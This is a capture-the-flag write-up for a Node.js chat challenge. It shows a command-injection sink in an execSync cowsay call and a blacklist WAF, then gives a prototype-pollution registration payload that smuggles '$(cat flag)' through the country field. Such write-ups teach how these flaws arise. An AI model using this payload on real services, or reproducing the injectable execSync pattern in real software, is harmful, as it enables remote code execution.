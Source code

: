 {% writeupHeader %}

{% name %}
chat

{% links %}
[Rendered GitBook version](https://sasdf.cf/ctf-tasks-writeup/)

{% category %}
crypto

{% points %}
211

{% solves %}
44

{% endwriteupHeader %}

> We received a new gig.
> Our goal is to review this application written in nodejs and see if we can get the flag from this system.
> Are you up for this?

## Time
10 minutes

# Solution
## TL;DR
* Inject country field using proto pollution to get RCE.

## Vulnerability
When a user join a channel,
server will broadcast a ascii art created using cowsay.
The function getAscii has command injection vulnerability.
```javascript
helper.getAscii("User " + u + " living in " + c + " joined channel")
// ...
{
    getAscii: function(message) {
        var e = require('child_process');
        return e.execSync("cowsay '" + message + "'").toString();
    }
}
```
Where `u` is `name` and `c` is `country`.
They have a WAF for input:
```javascript
{
    validUser: function(inp) {
        var block = ["source","port","font","country",
                     "location","status","lastname"];
        if(typeof inp !== 'object') {
            return false;
        }

        var keys = Object.keys( inp);
        for(var i = 0; i< keys.length; i++) {
            key = keys[i];

            if(block.indexOf(key) !== -1) {
                return false;
            }
        }

        var r =/^[a-z0-9]+$/gi;
        if(inp.name === undefined || !r.test(inp.name)) {
            return false;
        }

        return true;
    }
}
```
They use `Object.keys` to blacklist some fields,
and use a custom clone function,
which is vulnerable to proto pollution.

Register with `{"name":"a","__proto__":{"country":"'$(cat flag)'"}}` to get the flag.

